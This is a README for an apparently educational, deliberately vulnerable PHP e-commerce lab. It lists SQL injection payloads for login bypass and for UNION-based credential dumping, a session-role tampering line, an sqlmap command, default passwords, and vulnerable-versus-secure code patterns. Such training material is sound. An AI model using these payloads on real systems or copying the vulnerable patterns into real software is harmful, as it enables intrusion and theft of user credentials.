


# SecScope Tech Store - Vulnerable E-Commerce Platform

## 📖 Introduction

SecScope Tech Store is a deliberately vulnerable e-commerce web application designed for educational purposes in web application security. This platform mimics a real electronics store while containing intentional security vulnerabilities to help security professionals, students, and developers learn about common web application security issues in a safe, controlled environment.

  
*Homepage of SecScope Tech Store showcasing featured products*

## 🚀 Features

### E-Commerce Functionality

* **User Registration &amp; Authentication** - Complete user system with profiles
* **Product Catalog** - Browse products by categories with search functionality
* **Shopping Cart** - Add/remove items with quantity management
* **Checkout Process** - Complete order placement system
* **Order Management** - View order history and status
* **Admin Panel** - Full administrative interface for product and user management

### Educational Security Vulnerabilities

* **SQL Injection** - Multiple injection points throughout the application
* **Cross-Site Request Forgery (CSRF)**  - Missing token validation
* **Authentication Bypass** - Vulnerable login mechanisms
* **Session Management Issues** - Improper session handling
* **Input Validation flaws** - Lack of proper input sanitization

## 🛠️ Installation & Setup

### Prerequisites

* Docker installed on your system
* Git (optional, for cloning the repository)

### Quick Start with Docker

1. **Clone or download the project files**

    ```bash
    git clone <repository-url>
    cd secscope-tech-store
    ```
2. **Build the Docker image**

    ```bash
    docker build -t secscope-app .
    ```
3. **Run the container**

    ```bash
    docker run -p 80:80 --name secscope-container secscope-app
    ```
3. **Use Docker Compose**

    ```bash
    docker compose up -d
    ```
5. **Access the application**

    * Open your browser and navigate to: `http://localhost:8080`​
    * Admin Panel: `http://localhost/admin`​

### Default Login Credentials

**Admin Accounts:**

* Username: `admin`​ | Password: `admin123`​
* Username: `jeff.smith`​ | Password: `password`​
* Username: `eric.adams`​ | Password: `iloveyou`​

**User Accounts:**

* Username: `john.doe`​ | Password: `qwerty`​
* Username: `joe.bloggs`​ | Password: `123456789`​
* Username: `sally.jones`​ | Password: `football`​

  
*Login interface showing SQL injection vulnerability*

## 🔍 Security Testing Guide

### SQL Injection Vulnerabilities

#### 1. Login Bypass

**Location:**  Login Page (`/login.php`​)

```sql
Username: admin' OR '1'='1
Password: anything
```

#### 2. Search Function Injection

**Location:**  Products Page (`/products.php`​)

```sql
Search: ' UNION SELECT username, password, NULL, NULL, NULL, NULL FROM users --
```

#### 3. Product ID Injection

**Location:**  Product Details (`/product-details.php`​)

```sql
URL: product-details.php?id=1 UNION SELECT username, password, NULL, NULL, NULL, NULL , NULL FROM users --
```

  
*Example of SQL injection exploitation in search functionality*

### CSRF Vulnerabilities

#### 1. Admin User Deletion

```html

```

#### 2. Order Cancellation

```html

```

### Authentication Bypass

#### Session Manipulation

Use browser developer tools to modify session storage:

```javascript
sessionStorage.setItem('user_role', 'admin');
```

## 🎯 Testing Methodology

### Manual Testing

1. **Input Manipulation** - Test all form fields with special characters
2. **Parameter Tampering** - Modify URL parameters manually
3. **Session Analysis** - Examine cookies and session management
4. **Error Analysis** - Study error messages for information disclosure

### Automated Testing

```bash
# Basic SQL injection testing with SQLmap
sqlmap -u "http://localhost/products.php?search=test" --batch

# CSRF testing with Burp Suite
# 1. Configure browser proxy to use Burp
# 2. Browse the application to capture requests
# 3. Use Burp Scanner to automatically test for vulnerabilities
```

  
*Admin panel showing user management with CSRF vulnerabilities*

## 📁 Project Structure

```
secscope-tech-store/
├── Dockerfile                # Docker configuration
├── database.sql              # Database schema with sample data
├── start.sh                  # Startup script
└── src/                      # Application source code
    ├── index.php             # Homepage
    ├── login.php             # Login page (SQLi vulnerable)
    ├── register.php          # User registration
    ├── products.php          # Product listing (SQLi vulnerable)
    ├── product-details.php   # Individual product pages
    ├── cart.php              # Shopping cart
    ├── checkout.php          # Checkout process
    ├── orders.php            # Order management (CSRF vulnerable)
    ├── admin/                # Admin panel
    │   ├── index.php         # Admin dashboard
    │   ├── users.php         # User management (CSRF vulnerable)
    │   ├── products.php      # Product management
    │   └── orders.php        # Order management
    ├── includes/
    │   ├── config.php        # Database configuration
    │   ├── header.php        # Site header
    │   └── footer.php        # Site footer
    └── assets/
        ├── css/              # Stylesheets
        ├── js/               # JavaScript files
        └── images/           # Product images
```

## 🛡️ Security Best Practices (For Comparison)

### What NOT to Do (Vulnerable Patterns)

```php
// VULNERABLE: SQL Injection
$query = "SELECT * FROM users WHERE username = '" . $_POST['username'] . "'";

// VULNERABLE: No CSRF protection
if ($_GET['delete_user']) {
    $delete_query = "DELETE FROM users WHERE id = " . $_GET['delete_user'];
}
```

### What TO Do (Secure Patterns)

```php
// SECURE: Prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ?");
$stmt->bind_param("s", $_POST['username']);
$stmt->execute();

// SECURE: CSRF tokens
if ($_POST['action']) {
    if (!hash_equals($_SESSION['csrf_token'], $_POST['csrf_token'])) {
        die("CSRF validation failed");
    }
}
```

  
*Checkout process showing order summary and payment details*

## 🚨 Important Notes

### Educational Purpose Only

This application contains **deliberate security vulnerabilities** and should:

* ✅ Be used for educational purposes only
* ✅ Be run in isolated environments
* ✅ Be used to learn about web security
* ❌ Never be deployed in production
* ❌ Never be exposed to the public internet
* ❌ Never contain real user data

### Legal and Ethical Considerations

* Only test on systems you own or have explicit permission to test
* Never attempt to exploit vulnerabilities without authorization
* Respect privacy and data protection laws
* Use knowledge gained responsibly

## 🔧 Troubleshooting

### Common Issues

1.  **&quot;Class 'mysqli' not found&quot;**

    ```bash
    # Rebuild the Docker image
    docker build -t secscope-app .
    ```
2. **Database connection issues**

    ```bash
    # Check if MySQL is running in the container
    docker exec -it secscope-container service mysql status
    ```
3. **Application not loading**

    ```bash
    # Check container logs
    docker logs secscope-container
    ```

### Getting Help

If you encounter issues:

1. Check the container logs: `docker logs secscope-container`​
2. Verify database initialization: `docker exec -it secscope-container mysql -u root -e "USE secscope_store; SHOW TABLES;"`​
3. Ensure all required files are in the `src/`​ directory

## 📚 Learning Resources

* OWASP Top 10 Web Application Security Risks
* SQL Injection Prevention Cheat Sheet
* CSRF Prevention Cheat Sheet
* Web Application Hacker's Handbook
* Burp Suite Documentation

  
*Product catalog showing various electronics categories*

## 👥 Contributing

This is an educational project. If you'd like to contribute:

1. Report bugs or issues
2. Suggest new vulnerabilities to include
3. Improve documentation
4. Enhance the user interface

## 📄 License

This project is created for educational purposes only. Use responsibly and ethically.

---

**Warning:**  This application contains deliberate security vulnerabilities for educational purposes. Never deploy in production environments or expose to the public internet.

**Happy Learning! 🎓**
